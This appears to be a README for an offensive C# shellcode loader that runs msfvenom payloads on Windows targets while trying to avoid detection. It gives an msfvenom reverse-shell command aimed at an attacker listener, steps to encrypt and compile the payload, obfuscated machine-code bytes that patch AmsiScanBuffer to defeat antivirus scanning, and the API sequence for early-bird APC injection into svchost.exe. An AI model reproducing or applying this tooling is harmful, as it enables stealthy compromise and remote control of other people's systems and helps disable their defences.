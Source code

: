 
# Expeditus

Expeditus is a C# loader/dropper that executes shellcode (such as that generated by msfvenom) on a target Windows system. It combines several offensive techniques in order to attempt to do this with some level of stealth.

* Encryption of shellcode before compilation of loader to obfuscate obvious AV signatures in the assembly (see [MITRE ATT&CK ID: T1027](https://attack.mitre.org/techniques/T1027/))
* Patching of amsi.dll for evasion of host-based defences at runtime (see [MITRE ATT&CK ID: T1562.001](https://attack.mitre.org/techniques/T1562/001/))
* Shellcode injection into svchost.exe via the Asynchronous Procedure Call (APC) queue (see [MITRE ATT&CK ID: T1055.004](https://attack.mitre.org/techniques/T1055/004/))

Before performing the process injection, the loader first patches amsi.dll in memory so that the AmsiScanBuffer() function always returns E_INVALIDARG and the final scan result is AMSI_RESULT_CLEAN. This should allow the process injection to proceed without as much scrutiny from AV, although there is also a fair risk that kernel32 is hooked and so our Windows API calls can be examined. Unhooking of kernel32 is a planned improvement for future work.

The loader then uses the 'early bird' variation of the APC queue code injection technique. A new svchost.exe process is created in a suspended state. A new buffer is created inside it and the decrypted shellcode is copied into this. A new entry is added to the main thread's APC queue with a pointer to the shellcode buffer. The main thread is then resumed, the Expeditus loader process exits, and the independent svchost.exe process executes the user's shellcode.

## Usage

First of all the user needs to write or otherwise generate some suitable shellcode that they would like to run on the target system. For example:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f powershell`

The above command gives output of the following form:

`[Byte[]] $buf = 0xfc,0x48,0x83...`

This shellcode should then be copied and pasted into the payload-encrypt.ps1 script which can then be executed. The output should look like this:

`Encrypted payload to paste into strEncryptedPayload variable in expeditus.cs: lCfnjZWA....WsA==`

The output is the shellcode after being XOR encrypted and then Base64 encoded. It should be copied and pasted into the expeditus.cs file in the strEncryptedPayload variable which you will find around line 119.

Finally, the expeditus.cs loader can now be compiled ready to use:

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:expeditus.exe expeditus.cs`

Running expeditus.exe on the target should result in a new svchost.exe process appearing. The expeditus.exe process will termainate immediately and the (far less suspicious) svchost.exe process will remain until the shellcode exits (for example, when you terminate your reverse shell) at which point the svchost.exe process also terminates.

## Technical Details

### In-memory patching of amsi.dll

See the [memory patching AMSI bypass](https://rastamouse.me/memory-patching-amsi-bypass/) blog post by Rasta Mouse for a detailed explanation of this technique.

As far as implementing it in our loader goes, we just need to make sure that our patch of the AmsiScanBuffer() function somehow places 0x80070057 (E_INVALIDARG) into the EAX register and then returns. We have not used the simplest and most obvious method of achieving this (mov eax, 0x80070057; ret) that is used in the blog post. This is because many AV products now have a signature to match those specific bytes. Instead we use the following code to get the same result while bypassing the existing AV signatures.
			
```
and eax,0x00000000
add eax,0x90940031
sub eax,0x108CFFDA
ret
```
			
We place zero into EAX by performing an AND of its current (irrelevant) value with 0x00000000. We then add 0x90940031 to it and subtract 0x108CFFDA which gets us to our required value of 0x80070057.

Putting those instructions through an assembler gives us the machine code for our patch.

`byte[] amsiScanBufferPatch = {0x83,0xE0,0x00,0x05,0x31,0x00,0x94,0x90,0x2D,0xDA,0xFF,0x8C,0x10,0xC3};`

The rest of the Amsipatch class is self-explanatory. We simply look up the address of the AmsiScanBuffer() function and overwrite the first few bytes of it with our patch. 

### Early bird APC Queue code injection

The shellcode is stored inside a local variable in expeditus.cs in encrypted form to at least avoid detection of the shellcode in the static .NET assembly. When it is executed, this is decrypted back to the raw shellcode in a buffer in memory after the amsi.dll patch has been applied.

We then make several API calls to kernel32 in order to perform our chosen process injection technique.

* CreateProcess is used to create a new svchost.exe process in a suspended state
* VirtualAllocEx is used to allocate memory to a new readable and writeable (PAGE_READWRITE) buffer inside the svchost.exe process the same size as the shellcode
* WriteProcessMemory is used to copy the contents of the shellcode buffer in the expeditus.exe process to the new buffer in the svchost.exe process
* VirtualProtectEx is used to change the new buffer's memory protection status to readable and executable (PAGE_EXECUTE_READ)
* OpenThread is used to get a pointer to the main thread of the svchost.exe process
* QueueUserAPC is used to add a pointer to the shellcode buffer to the main thread's APC queue
* ResumeThread is used to resume the main thread

Once this simple procedure has completed the expeditus.exe process terminates leaving behind a legitimate svchost.exe process with our shellcode queued to it's main thread.
		
			
